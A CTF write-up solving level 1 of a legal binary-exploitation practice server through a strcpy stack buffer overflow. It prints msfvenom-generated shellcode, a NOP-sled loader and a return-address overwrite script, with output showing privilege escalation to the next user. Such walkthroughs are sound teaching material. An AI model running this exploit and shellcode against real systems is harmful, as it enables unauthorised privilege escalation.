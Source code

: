 ```yaml
---
title:  "[CTF] Binary Master Ensign - 1"
---
```


![Logo](/assets/images/belts-white.png)

At one point I _stumbled_  over the **Certified Secure Binary Mastery** challenges. 
They are not terribly difficult and _each one of them has an interesting element_. This makes them _accessible and fun_. 

In this blog posts and the following four I'll go through the [Ensign](https://www.certifiedsecure.com/certification/view/37) levels. As described, these ones deal with _retro exploitation techniques_ like buffer overflows, format strings, off-by-one errors and so on. No recent security mitigations are involved in the Ensign levels (E.g.: ASLR or non-executable stack). Don't worry too much about this yet, because their complexity increases to keep the hackers _in flow_. 

![Ensign](/assets/images/bm1.png)

**I hope it goes without saying that these blog posts shouldn't be used as a way to cheat yourself in any case, but as a learning oportunity. With this in mind, let's begin with _Level 1_**.

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level1@hacking.certifiedsecure.com -p 8266
level1@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1
```

Good signs: as expected NX is disabled and there is no stack canary. Let's verify that the stack is executable:
```
$ readelf -lW level1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. What about the state of ASLR on the system? Good news again: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:
```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

What we have here is a classic stack-based buffer overflow, caused by overflowing the 16-byte buffer _buf_ using the insecure function _strcpy_, which doesn't do any bounds checking:

```c
#include <stdio.h>                                                                                                 
#include <string.h>

void helloworld(char* name) {
    char buf[16];

    strcpy(buf, name);

    printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        printf("Usage: %s <name>\n", argv[0]);
       
        return -1;
    }

    helloworld(argv[1]);

    return 0;
}
```

## 2 - Exploitation

By overwriting the return address from the function _helloworld_, we can redirect the execution of the program. We'll chose as destination _**a location on the stack containing our shellcode**_. Steps:
* Find the position that overwrites the return address.
* Generate _NULL-free_ shellcode for the correct architecture. Although the machine is 64-bit, the binaries are 32!
* Place the shellcode in an environment variable.
* Find the static address of the environment variable (No ASLR, remember?) and used it conjunction with step 1.

### Control the execution flow
Although  we can generally use tools from Metasploit Framework like _pattern_create_ and _pattern_offset_, in this case it is much simpler. We can just examine stack of the _helloworld_ function in IDA:

![helloworld stack](/assets/images/bm1-2.png)

So at dest+24 we have the saved EBP and at **dest+28** the saved return address. 

### Generate shellcode
We'll do this very easily from Kali. We can generate a payload to execute **/bin/dash** to ensure it will [not drop the SUID privileges](http://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges):
```bash
# msfvenom  -p linux/x86/exec CMD=/bin/dash -e x86/shikata_ga_nai -b '\x00' -f python
```

### Shellcode placement and location
Place the shellcode generated from MSF into a python script (_put-sc.py_ below) and place the output into an environment variable:

```python
buf =  ""                                                                                                          
buf += "\xda\xd7\xba\xb4\x13\x10\x12\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
buf += "\x0c\x31\x55\x18\x83\xed\xfc\x03\x55\xa0\xf1\xe5\x78\xc3\xad"
buf += "\x9c\x2f\xb5\x25\xb2\xac\xb0\x51\xa4\x1d\xb1\xf5\x35\x0a\x1a"
buf += "\x64\x5f\xa4\xed\x8b\xcd\xd0\xe7\x4b\xf2\x20\xd8\x29\x9b\x4e"
buf += "\x09\xca\x3a\xfc\x3d\x12\xea\x51\x34\xf3\xd9\xd6"

print "\x90"*30 + buf
```

```bash
$ export EGG=$(python /tmp/put-sc.py)
```

We still need to find out exactly where on the stack of our level1 binary will the environment variables reside. The easiest way to do this is to add an instruction to print the address of our environment variable and recompile level1.c **_on the target_**:

```c
 printf("EGG address: 0x%lx\n", getenv("EGG"));
 ```
 
 To compile files on the target we need to do it from the /tmp folder, or use a different TMPDIR variable, because we don't have write access in the current home folder, used by gcc for temporary files. Let's say we want to create another directory to be used as temporary folder for compilation:
 
 ```bash
$ mkdir /tmp/me
$ export TMPDIR=/tmp/me                                                                                            
$ gcc -m32 -fstack-protector -z execstack  /tmp/level1-mod.c -o /tmp/level1-mod
 ```
 
 Don't forget to use the same protection mechanisms (none!) as present in the original binary: no stack cookies (_-fnostackprotector_) and executable stack (_-z execstack_).
 
So the static address where the environment variable EGG will be located when running level1 is **0xffffd8c6**:

```bash
$ /tmp/level1-mod aaaaa
EGG address: 0xffffd8c6
Hello aaaaa!
```
## 3 - Profit

The following script generates the payload:

```python
#!/usr/bin/python                                                                                                  

import struct

# Address of environment variable containing shellcode
# Obtain this from findeggaddr.c
ret =  struct.pack("<L", 0xffffd8c6)

print "A" * 24 + ret*2
```

And we're in:
```bash
$ /levels/level1 $(python /tmp/expl.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAA������!
$ id
uid=1002(level1) gid=1002(level1) euid=1003(level2) groups=1003(level2),1002(level1)
$ /home/level2/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery ensign)
   * the exploit

You can now start with level2. If you want, you can log in
as level2 with password [REDACTED]
```


In the [next level](https://livz.github.io/2016/01/14/binary-master-ensign-2.html) we'll exploit another classic vulnerability, **uncontrolled format strings**.
